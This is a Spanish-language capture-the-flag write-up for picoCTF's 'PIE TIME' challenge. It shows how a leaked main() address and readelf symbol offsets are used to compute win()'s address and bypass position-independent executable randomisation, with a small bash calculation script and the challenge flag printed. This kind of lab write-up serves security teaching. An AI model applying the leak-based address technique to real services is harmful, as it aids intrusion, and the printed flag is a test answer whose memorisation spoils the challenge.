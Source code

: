 
## Reto
### PIE TIME
## Descripcion
Can you try to get the flag? Beware we have PIE!

Additional details will be available after launching your challenge instance.
## Solucion
- me dan un netcat para conectarme
- al conectarme me dicen el adress de main, algo asi como: `0x60bca649b33d`
- pero cada vez que me conecto cambia el adress
- esto es porque corre con PIE (Position-Independent Executable file), y lo podemos verificar usando este comando sobre el binario `readelf -h vuln | grep "Type:"`
- nos pide que pongamos el adress de alguna funcion para que se ejecute
- de las cosas que nos dan son el codigo fuente y el binario del programa
- viendo el programa vemos que si queremos obtener la bandera debemos correr la funcion `win()`
- como tenemos el binario corremos 
```
readelf -s vuln | egrep '\b(main|win)\b'
```
- y esto nos da el offset entre el metodo main() y win()
```
    66: 00000000000012a7   150 FUNC    GLOBAL DEFAULT   16 win
    70: 000000000000133d   204 FUNC    GLOBAL DEFAULT   16 main
```
- volvemos a entrar al netcat y apuntamos el adress de main que nos da para correr este script en otra terminal:
```
#!/bin/bash
# Ajusta LEAK_MAIN si tienes otro leak; si no, deja el valor que ya conoces.
LEAK_MAIN= $valor_adress_main$


# Extraer offsets desde el binario (readelf suele mostrar el valor sin 0x)
# O pon directamente los valores que encontraste
# - `sym_win = 0x12a7`    
# - `sym_main = 0x133d`
SYM_MAIN=0x$(readelf -s vuln | awk '/ main$/ {print $2; exit}')
SYM_WIN=0x$(readelf -s vuln | awk '/ win$/ {print $2; exit}')


echo "sym_main = $SYM_MAIN"
echo "sym_win  = $SYM_WIN"
echo "leak_main = $LEAK_MAIN"

# calcular base y win address
BASE=$((LEAK_MAIN - SYM_MAIN))
WIN_ADDR=$((BASE + SYM_WIN))

printf "calculated base = 0x%x\n" $BASE
printf "calculated win  = 0x%x\n" $WIN_ADDR
```
- esto me da el adress de win, al ponerlo me da la bandera: **picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_28a46dcd}**
## Notas
- aunque me dieron el script, mejor le dije a chatgot que me hiciera el calculo
## Referencias
